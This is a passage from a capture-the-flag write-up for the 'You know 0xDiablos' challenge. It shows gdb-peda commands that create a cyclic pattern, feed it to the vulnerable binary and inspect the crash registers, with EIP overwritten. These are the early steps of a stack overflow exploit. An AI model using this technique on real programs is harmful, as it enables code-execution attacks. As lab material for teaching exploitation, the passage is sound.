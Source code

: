 	Temporary breakpoint 1, 0x080492c0 in main ()
	```

6. Create a pattern with 200 chars:

	```shell
  # create a pattern bigger than 180 chars
	gdb-peda$ pattern_create 200 bof.txt
	Writing pattern of 200 chars to filename "bof.txt"
	```

	```shell
  # check that the file was created
	ls
	0xdiablos.gpr   0xdiablos.lock   0xdiablos.lock~   0xdiablos.rep   bof.txt   peda-session-vuln.txt   vuln  'You know 0xDiablos.zip'  'You know 0xDiablos.zip:Zone.Identifier'
	
  # display the content of the file
	cat bof.txt
	AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
	```

7. Run (`r`) the program with `bof.txt` as input:

	```shell
  # run program using box.txt as input
	gdb-peda$ r < bof.txt
	Starting program: /home/kali/htb/you_know_0xdiablos/vuln < bof.txt
	[Thread debugging using libthread_db enabled]
	Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
	You know who are 0xDiablos:
	AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
	
	Program received signal SIGSEGV, Segmentation fault.
	[----------------------------------registers-----------------------------------]
	EAX: 0xc9
	EBX: 0x76414158 ('XAAv')
	ECX: 0xf7f969b8 --> 0x0
	EDX: 0x0
	ESI: 0x8049330 (<__libc_csu_init>:      push   ebp)
	EDI: 0xf7ffcba0 --> 0x0
	EBP: 0x41594141 ('AAYA')
	ESP: 0xffffcd90 ("ZAAxAAyA")
	EIP: 0x41417741 ('AwAA')
	EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
	[-------------------------------------code-------------------------------------]
	Invalid $PC address: 0x41417741
	[------------------------------------stack-------------------------------------]
	0000| 0xffffcd90 ("ZAAxAAyA")
	0004| 0xffffcd94 ("AAyA")
	0008| 0xffffcd98 --> 0xf7d93900 --> 0x78656d ('mex')
	0012| 0xffffcd9c --> 0x3e8
	0016| 0xffffcda0 --> 0xffffcdc0 --> 0x1
	0020| 0xffffcda4 --> 0xf7f94ff4 --> 0x21dd8c
	0024| 0xffffcda8 --> 0x0
	0028| 0xffffcdac --> 0xf7d9a7c5 (add    esp,0x10)